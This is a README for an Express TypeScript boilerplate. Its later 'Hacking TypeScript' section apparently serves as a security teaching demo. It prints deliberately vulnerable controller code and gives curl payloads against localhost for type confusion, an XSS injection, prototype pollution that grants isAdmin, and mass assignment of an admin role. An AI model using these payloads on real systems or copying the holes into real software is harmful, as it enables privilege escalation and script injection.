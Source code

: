 # 🚀 Express TypeScript Boilerplate 2024

[![Build](https://github.com/edwinhern/express-typescript-2024/actions/workflows/build.yml/badge.svg)](https://github.com/edwinhern/express-typescript-2024/actions/workflows/build.yml)
[![Test](https://github.com/edwinhern/express-typescript-2024/actions/workflows/test.yml/badge.svg)](https://github.com/edwinhern/express-typescript-2024/actions/workflows/test.yml)
[![Code Quality](https://github.com/edwinhern/express-typescript-2024/actions/workflows/code-quality.yml/badge.svg)](https://github.com/edwinhern/express-typescript-2024/actions/workflows/code-quality.yml)
[![Docker Image CI](https://github.com/edwinhern/express-typescript-2024/actions/workflows/docker-image.yml/badge.svg)](https://github.com/edwinhern/express-typescript-2024/actions/workflows/docker-image.yml)

``` code
Hey There! 🙌 
🤾 that ⭐️ button if you like this boilerplate. 
```

## 🌟 Introduction

Welcome to the Express TypeScript Boilerplate 2024 – a streamlined, efficient, and scalable foundation for building powerful backend services with modern tools and practices in Express.js and TypeScript.

## 💡 Motivation

This boilerplate aims to:

- ✨ Reduce setup time for new projects
- 📊 Ensure code consistency and quality
- ⚡  Facilitate rapid development
- 🛡️ Encourage best practices in security, testing, and performance

## 🚀 Features

- 📁 Modular Structure: Organized by feature for easy navigation and scalability
- 💨 Faster Execution with tsx: Rapid TypeScript execution with `tsx` and type checking with `tsc`
- 🌐 Stable Node Environment: Latest LTS Node version in `.nvmrc`
- 🔧 Simplified Environment Variables: Managed with Envalid
- 🔗 Path Aliases: Cleaner code with shortcut imports
- 🔄 Renovate Integration: Automatic updates for dependencies
- 🔒 Security: Helmet for HTTP header security and CORS setup
- 📊 Logging: Efficient logging with `pino-http`
- 🧪 Comprehensive Testing: Setup with Vitest and Supertest
- 🔑 Code Quality Assurance: Husky and lint-staged for consistent quality
- ✅ Unified Code Style: `Biomejs` for consistent coding standards
- 📃 API Response Standardization: `ServiceResponse` class for consistent API responses
- 🐳 Docker Support: Ready for containerization and deployment
- 📝 Input Validation with Zod: Strongly typed request validation using `Zod`
- 🧩 Swagger UI: Interactive API documentation generated from Zod schemas

## 🛠️ Getting Started

### Video Demo

For a visual guide, watch the [video demo](https://github.com/user-attachments/assets/b1698dac-d582-45a0-8d61-31131732b74e) to see the setup and running of the project.

### Step-by-Step Guide

#### Step 1: 🚀 Initial Setup

- Clone the repository: `git clone https://github.com/edwinhern/express-typescript-2024.git`
- Navigate: `cd express-typescript-2024`
- Install dependencies: `npm ci`

#### Step 2: ⚙️ Environment Configuration

- Create `.env`: Copy `.env.template` to `.env`
- Update `.env`: Fill in necessary environment variables

#### Step 3: 🏃‍♂️ Running the Project

- Development Mode: `npm run dev`
- Building: `npm run build`
- Production Mode: Set `.env` to `NODE_ENV="production"` then `npm run build && npm run start`

## 🤝 Feedback and Contributions

We'd love to hear your feedback and suggestions for further improvements. Feel free to contribute and join us in making backend development cleaner and faster!

🎉 Happy coding!

## 💀 Hacking TypeScript

### TypeScript Validation Fail #1

In the users controller file at `src/api/user/userController.ts` we have the following code:

```typescript
class UserController {
  public getUsers: RequestHandler = async (_req: Request, res: Response) => {
    const filterQuery: any = _req.query.filter || '';

    console.log(`req.query.filter: ${filterQuery}; typeof: ${typeof filterQuery}`);

    const serviceResponse = await userService.findAll({ filter: filterQuery });
    return handleServiceResponse(serviceResponse, res);
  };
```

Even though we are using TypeScript, we defined the filterQuery as `any` which is the obvious glaring mistake. So upon sending a request to the `/api/users` endpoint with a query parameter `filter` that may not be a string, we get the following to send a response back

```bash
curl -X 'GET' -H 'accept: application/json' "http://localhost:8080/users?filter[]=A"| jq
```

### TypeScript Validation Fail #2

In the users controller file at `src/api/user/userController.ts` we have the following code:

```typescript
class UserController {
  public getUsers: RequestHandler = async (_req: Request, res: Response) => {
        const filterQuery: string = _req.query.filter as string || '';

    console.log(`req.query.filter: ${filterQuery}; typeof: ${typeof filterQuery}`);

    const serviceResponse = await userService.findAll({ filter: filterQuery });
    return handleServiceResponse(serviceResponse, res);
  };
```

We have now improved upon the previous code and treat the `filterQuery` as a string.

Next, run the TS compiler to ensure all types are as expected:

```bash
npx tsc
```

Let's send a request to see how the server behaves:

```bash
curl -X 'GET' -H 'accept: application/json' "http://localhost:8080/users?filter[]=A"| jq
```

Still, we get results back. Even though, supposedly we should only be accepting a string as a filter query and not arrays, per our TypeScript definitions.

### TypeScript Security Bypass #3

We send in a query parameter that is a string but contains a malicious payload but it gets sanitized correctly per our logic:

```bash
curl -G -X 'GET' -H 'accept: application/json' "http://localhost:8080/users/component" --data-urlencode "name=<img liran"

Bad input detected!
```

What happens if we update the query string so that the field is to be interpreted as an array instead of a string?

```bash
curl -G -X 'GET' -H 'accept: application/json' "http://localhost:8080/users/component" --data-urlencode "name[]=<img src=x onError=alert(1) />"           

<h1>Hello, <img src=x onError=alert(1) />!</h1>
```

### TypeScript Security Bypass #4

Let's bypass both TypeScript types and Zod schema input validation.

First off, a safe request:

```bash
curl http://localhost:8080/users/1/settings | jq
```

Let's set a setting to enabled:

```bash
curl -X POST -H 'Content-Type: application/json' http://localhost:8080/users/1/settings -d '{"darkmode": true}' 
```

Now let's specifically set the notifications settings

```bash
curl -X PUT -H 'Content-Type: application/json' http://localhost:8080/users/1/settings/notifications -d '{"notificationType": "email", "notificationMode": "daily", "notificationModeValue": "disabled"}'
```

Now let's try to type juggle the notifications settings and cause some havoc on the server

```bash
curl -X PUT -H 'Content-Type: application/json' http://localhost:8080/users/1/settings/notifications -d '{"notificationType": {"type": "email"}, "notificationMode": ["daily"], "notificationModeValue": "disabled"}'
```

Now let's abuse this with a prototype pollution payload:

```bash
curl -X PUT -H 'Content-Type: application/json' http://localhost:8080/users/1/settings/notifications -d '{"notificationType": "__proto__", "notificationMode": "isAdmin", "notificationModeValue": true}'
```

Let's try to access the admin route now:

```bash
curl http://localhost:8080/admin
```

### TypeScript Security Bypass #5

Let's save user information

First need to initialize an SQLite database

```sh
npm run initdb
```

Then we can refer to the `userController.ts` file which has a `saveUser` route handler that uses Zod to validate the schema and also relies on TypeScript to infer the User type.

Let's update:

```bash
curl -X POST -H 'Content-Type: application/json' http://localhost:8080/users/1/profile -d '{"name": "Liran", "email": "liran@example.com", "age": 30}'
```

Here's where it goes wrong. What about the following payload:

```sh
curl -X POST -H 'Content-Type: application/json' http://localhost:8080/users/1/profile -d '{"name": "Liran", "email": "liran@example.com", "age": 30, "role": "admin"}'
```

The Zod schema is not strictly enforced and that results in the extra property `role` being saved to the database. This is a mass assignment vulnerability.

